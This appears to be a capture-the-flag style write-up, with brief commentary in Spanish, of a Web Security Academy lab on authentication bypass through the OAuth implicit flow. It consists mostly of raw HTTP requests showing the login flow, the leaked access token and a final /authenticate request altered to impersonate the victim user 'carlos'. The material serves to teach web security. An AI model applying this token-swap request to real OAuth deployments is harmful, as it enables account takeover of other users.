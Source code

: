 ```yaml
---
layout: default
title: 1 - Authentication bypass via OAuth implicit flow
---
```


**Implicit Grant Type** (response_type=token) :

```HTTP
GET /auth?client_id=ad8hfc7kpli96shlhi17k&redirect_uri=https://0a57004c03019f8180790d2c00cc0028.web-security-academy.net/oauth-callback&response_type=token&nonce=1699848058&scope=openid%20profile%20email
```

```HTTP
POST /interaction/f7BCf2LSAmq6eUnLqZS3u/login

username=wiener&password=peter
```

```HTTP
GET /auth/f7BCf2LSAmq6eUnLqZS3u
```
```
Redirecting to <a href="https://0a57004c03019f8180790d2c00cc0028.web-security-academy.net/oauth-callback#access_token=cC_H_dhSDbAu56Hp7eCZyzjMPvUia_d_qmfLff8LUop&amp;expires_in=3600&amp;token_type=Bearer&amp;scope=openid%20profile%20email">https://0a57004c03019f8180790d2c00cc0028.web-security-academy.net/oauth-callback#access_token=cC_H_dhSDbAu56Hp7eCZyzjMPvUia_d_qmfLff8LUop&amp;expires_in=3600&amp;token_type=Bearer&amp;scope=openid%20profile%20email</a>
```

```HTTP
GET /oauth-callback
```

```HTTP
GET /me
Authorization: Bearer k53eJUaN5aBcMICb4wCXZJcOKNsAFJUIvVXFu55BdoY
```
```json
{
	"sub":"wiener",
	"name":"Peter Wiener",
	"email":"wiener@hotdog.com",
	"email_verified":true
}
```

Al final de todo el recorrido se hace una petición extraña , simplemente la modificamos para resolver el lab:

```HTTP
POST /authenticate HTTP/2

{
	"email":"carlos@carlos-montoya.net",
	"username":"carlos",
	"token":"k53eJUaN5aBcMICb4wCXZJcOKNsAFJUIvVXFu55BdoY"
}
```
